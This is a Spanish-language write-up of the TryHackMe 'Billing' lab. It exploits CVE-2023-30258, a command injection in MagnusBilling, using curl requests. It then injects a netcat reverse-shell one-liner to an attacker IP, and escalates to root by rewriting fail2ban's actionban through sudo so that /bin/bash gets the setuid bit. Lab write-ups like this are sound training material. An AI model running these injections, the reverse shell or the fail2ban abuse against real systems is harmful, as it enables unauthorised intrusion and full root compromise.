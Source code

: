 ```yaml
---
title: Billing - TryHackMe
layout: post
permalink: /writeups/THM/billing
date: 2025-04-22 11:00:00 -0000
description: >
  Write up en español para Billing - TryHackMe
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.20.37
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 23:38 CAT
Nmap scan report for 10.10.20.37
Host is up (0.054s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
| http-title:             MagnusBilling
|_Requested resource was http://10.10.20.37/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

## Servicio MagnusBilling

Dentro del directorio `/mbilling/` podemos encontrar un fichero llamado `README.md` que nos indica la verison de la aplicación.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage.png)

Si buscamos vulnerabilidades en la aplicación podemos encontrar [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258). 
Esta vulnerabilidad nos permite ejecutar comandos mediante peticiones HTTP sin autenticación.

Según este [PoC](https://eldstal.se/advisories/230327-magnusbilling.html) haremos la siguiente petición.

Al revisar el [código vulnerable](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) mencionado en el advisory, se aprecia que si se proporciona el parámetro GET `democ` (y su longitud supera los 5 caracteres) en una petición al endpoint `/lib/icepay/icepay.php`, se construye un comando así:

```php
"touch " . $_GET['democ'] . '.txt'
```

Esta cadena se pasa luego a la función `exec()`, lo que hace que el código sea vulnerable a inyección de comandos.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngmagnusbilling_vulnerable_code.webp)

Al probar el PoC del advisory con comandos `sleep`, se confirma la vulnerabilidad, pues el servidor tarda sistemáticamente más del tiempo especificado en nuestras órdenes `sleep`, lo que indica que se están ejecutando.

```bash
time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'  0.01s user 0.00s system 0% cpu 5.118 total

time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'  0.00s user 0.00s system 0% cpu 3.118 total

```

Sabiendo que podemos ejecutar comandos podemos obtener una reverse shell.

```plaintext
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.66.202 4444 >/tmp/f;'
```

Y la codificamos en URL.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-1.png)

## Shell con asterisk

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-2.png)

### User flag

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-3.png)

## Escalado de privilegios

Ejecutamos 

```bash
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Al verificar los privilegios de sudo del usuario asterisk, encontramos que dicho usuario tiene permitido ejecutar el comando fail2ban-client como root sin necesidad de contraseña.


**fail2ban-client** es una interfaz de línea de comandos que nos permite interactuar, configurar y controlar el **fail2ban-server**. A modo de resumen, fail2ban es una herramienta de seguridad que monitorea archivos de log en busca de actividades sospechosas (como múltiples intentos fallidos de inicio de sesión) y bloquea las IP ofensivas modificando reglas del firewall.

Verificando el estado del fail2ban-server, observamos que hay 8 jails activos:

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-4.png)

Los jails son básicamente configuraciones que definen qué logs monitorear, los patrones a buscar y qué acciones tomar cuando se detectan esos patrones.

Al revisar el archivo /etc/fail2ban/jail.local, vemos un ejemplo de jail.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-5.png)

Esta configuración indica, entre otras cosas, que el jail **asterisk-iptables** monitorea el archivo `/var/log/asterisk/messages` y busca patrones definidos en el filtro asterisk (/etc/fail2ban/filter.d/asterisk.conf). Cuando se detectan coincidencias, ejecuta la acción definida en **iptables-allports** (/etc/fail2ban/action.d/iptables-allports.conf).

Para usar fail2ban para ejecutar comandos como **root**, podemos modificar una de las acciones definidas para un jail, como la acción que se realiza al banear una IP (actionban).

Primero, consultamos las acciones activas del jail **asterisk-iptables** y luego, modificamos la acción actionban de **iptables-allports-ASTERISK** para ejecutar un comando arbitrario, en este caso, establecer el bit setuid en **/bin/bash**.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-6.png)

Ahora, al banear manualmente una IP en el jail **asterisk-iptables**, se ejecutará el comando `chmod +s /bin/bash` como root.

Finalmente, con el bit setuid activado en /bin/bash, podemos usarlo para obtener una shell con privilegios de root

![alt text](/assets/img/writeups/tryhackme/billing/image-7.png)